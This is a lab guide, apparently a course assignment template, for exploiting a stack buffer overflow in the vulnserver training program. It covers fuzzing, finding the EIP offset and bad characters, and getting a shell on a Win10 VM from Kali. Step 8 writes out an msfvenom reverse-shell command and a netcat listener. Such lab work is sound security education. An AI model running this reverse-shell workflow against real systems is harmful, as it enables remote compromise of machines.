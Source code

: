 # Buffer-Overflows-Made-Easy

## Table of Contents
1. [Lab Overview & Objectives](#lab-overview--objectives)  
2. [Environment & Prerequisites](#environment--prerequisites)  
3. [Step-by-Step Procedure](#step-by-step-procedure)  
   - [Step 0 — Network & VM Prep](#step-0---network--vm-prep)  
   - [Step 1 — Start vulnserver on Win10](#step-1---start-vulnserver-on-win10)  
   - [Step 2 — TRUN Overflow (Parts 1 & 2)](#step-2---trun-overflow-parts-1--2)  
   - [Step 3 — Fuzzing (Part 3)](#step-3---fuzzing-part-3)  
   - [Step 4 — Finding the Offset (Part 4)](#step-4---finding-the-offset-part-4)  
   - [Step 5 — Overwriting EIP (Part 5)](#step-5---overwriting-eip-part-5)  
   - [Step 6 — Finding Bad Characters (Part 6)](#step-6---finding-bad-characters-part-6)  
   - [Step 7 — Finding the Right Module (Part 7)](#step-7---finding-the-right-module-part-7)  
   - [Step 8 — Generating Shellcode & Gaining Shell (Part 8)](#step-8---generating-shellcode--gaining-shell-part-8)  

---

# Lab Overview & Objectives
This lab follows **The Cyber Mentor** series (Parts 1–8) to exploit `vulnserver` on a Windows 10 VM from a Kali attacker VM.

**Objectives**
- Trigger a TRUN buffer overflow and observe EIP/EBP overwrite.  
- Fuzz the service to find the crash location.  
- Determine the EIP offset and confirm control.  
- Identify bad characters.  
- Find a usable module/gadget.  
- Generate shellcode and obtain a reverse shell.

---

# Environment & Prerequisites
**VMs**
- Attacker: `Kali` VM (ensure VM name is visible in screenshots)  
- Target: `Win10` VM (password: `Passw0rd!`, ensure VM name is visible)

**Tools**
- VMware Workstation (or equivalent)  
- `vulnserver` (place on Win10)  
- Immunity Debugger + `mona.py` plugin (on Win10)  
- `msfvenom` / Metasploit (optional)  
- `nc` (netcat) on Kali  
- Python 2 on Kali (or run `python2` explicitly)

**Network**
- Both VMs must be on the same network (NAT/Host-only/Bridged).  
- Use your own IP addresses — do **not** reuse IPs from tutorial videos.

---

# Step-by-Step Procedure

## Step 0 — Network & VM Prep
- Start both VMs and ensure they share the same network.  
- Record IPs:
  - Kali IP: `TODO_kali_ip`  
  - Win10 IP: `TODO_win10_ip`  
- Take a VM snapshot.

## Step 1 — Start vulnserver on Win10
- Run `vulnserver.exe` as Administrator on the Win10 VM.  
- Confirm service is listening (commonly port `9999` in examples).  
- Screenshot: vulnserver running with Win10 VM name visible.

## Step 2 — TRUN Overflow (Parts 1 & 2)
- From Kali, send a long string of `A`s to `TRUN` (e.g., `"A"*4000`).  
- Observe in Immunity that EBP and EIP are overwritten with `0x41414141`.  
- Save script: `exploit_trun_step2.py`  
- Screenshot filename: `artifact01_trun_41414141.png`

## Step 3 — Fuzzing (Part 3)
- Run a fuzzing script that increases payload size until a crash occurs.  
- Save fuzz log (e.g., `fuzz_log.txt`) and screenshot Kali showing crash length.  
- Screenshot filenames: `artifact02_fuzz_kali.png`, `artifact02_fuzz_win10.png`

## Step 4 — Finding the Offset (Part 4)
- Generate a cyclic pattern larger than crash size, send it, and note value in EIP.  
- Use pattern tools (mona / pattern_offset) to compute offset.  
- Screenshot: `artifact03_offset_eip_value.png`  
- Record: `TODO_offset`

## Step 5 — Overwriting EIP (Part 5)
- Build payload: `<padding = offset>` + `BBBB` (`0x42424242`) + `<filler>` and send.  
- Verify EIP == `0x42424242`.  
- Screenshot: `artifact04_eip_42424242.png`

## Step 6 — Finding Bad Characters (Part 6)
- Append badchars sequence (all bytes except `\x00`) after return address.  
- In Immunity hex dump, compare the in-memory sequence to expected.  
- Identify any bytes that are altered (bad characters).  
- Screenshot: `artifact05_badchars_hexdump.png`  
- Record: `TODO_badchars`

## Step 7 — Finding the Right Module (Part 7)
- Use `mona` to find modules without ASLR/DEP and search for `jmp esp`/useful gadgets.  
- Choose module and address; set breakpoint (e.g., `essfunc`) and test.  
- Screenshot: `artifact06_essfunc_breakpoint.png`  
- Record: `TODO_module_name @ TODO_address`

## Step 8 — Generating Shellcode & Gaining Shell (Part 8)
- Generate shellcode excluding bad chars, example:
  msfvenom -p windows/shell_reverse_tcp LHOST=TODO_kali_ip LPORT=4444 -f c -b "\x00\x0a\x0d"
- Final payload: `<padding>` + `<JMP/RET address>` + `<NOP sled>` + `<shellcode>`  
- On Kali: `nc -lvnp 4444`  
- Trigger exploit and run `whoami`.  
- Screenshot: `artifact07_nc_whoami.png`  
- Record: `TODO_whoami_output`
